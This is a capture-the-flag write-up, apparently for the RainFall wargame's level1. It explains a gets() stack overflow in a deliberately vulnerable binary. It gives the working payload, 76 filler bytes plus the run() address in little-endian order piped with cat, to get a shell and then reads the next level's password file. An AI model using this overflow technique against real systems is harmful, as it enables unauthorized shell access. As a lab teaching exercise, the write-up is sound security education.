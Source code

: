 # Level1: Exploiting gets() for Unauthorized Shell Access

## Binary Analysis

The level1 program contains a simple buffer overflow vulnerability. Looking at the source code:

```c
#include <stdio.h>

int main(void)
{
  /* Buffer of 76 bytes allocated on the stack */
  char buffer[76];

  /* gets() reads input from stdin with NO bounds checking */
  gets(buffer);

  return 0;
}

void run(void)
{
  fwrite("Good... Wait what?\n", 1, 0x13, stdout);
  system("/bin/sh");
  return;
}
```

The key vulnerability is the use of `gets()`, which reads user input without any size limitation into a fixed-size buffer. Because of this, `gets` is inherently unsafe and was removed from the C11 standard. 

## Vulnerability Explanation

This creates a buffer overflow vulnerability because:

1. The `buffer` array is only 76 bytes long
2. `gets()` will continue reading input beyond those 76 bytes
3. Data beyond the buffer will overwrite adjacent memory on the stack
4. This includes overwriting the saved return address, allowing us to hijack program flow

## Locating the Target Function

First, we use GDB to find the memory address of the `run()` function:

```bash
level1@RainFall:~$ gdb -q ./level1
(gdb) p run
$1 = {<text variable, no debug info>} 0x8048444 <run>
```

We find that `run()` is located at address `0x8048444`. This function will be our target since it calls `system("/bin/sh")`.

## Crafting the Exploit

Our exploit needs to:

1. Fill the 76-byte buffer
2. Overwrite the return address with the address of `run()`

### Understanding Little-Endian Format

On x86 architecture (which the binary uses), memory addresses are stored in little-endian format. This means the least significant byte is stored at the lowest memory address.

For our address `0x08048444`:

- In big-endian: `08 04 84 44`
- In little-endian: `44 84 04 08`

We need to use the little-endian format in our payload because that's how the processor will interpret the bytes when reading the return address from the stack.

### Building the Exploit Command

```bash
(python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
```

Breaking this down:

- `python -c '...'`: The `-c` flag allows running Python code directly from the command line
- `print "A"*76`: Creates 76 'A' characters to fill the buffer
- `"\x44\x84\x04\x08"`: The little-endian representation of the `run()` function address
- `cat` without arguments: Keeps stdin open after the exploit payload is sent
- Piping the output to `./level1`: Feeds our payload to the program's stdin

### Why We Need `cat`

The `cat` command is crucial because:

1. When the exploit succeeds and `system("/bin/sh")` executes, the shell needs an open stdin to receive commands
2. Without `cat`, stdin would close after sending the exploit, causing the shell to exit immediately
3. With `cat`, stdin remains open, allowing us to interact with the spawned shell

## Successful Exploitation

When we run our exploit:

```bash
level1@RainFall:~$ (python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
```

We see the message from the `run()` function, confirming our exploit worked. Now we can retrieve the password:

```bash
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

This password allows us to advance to level2.
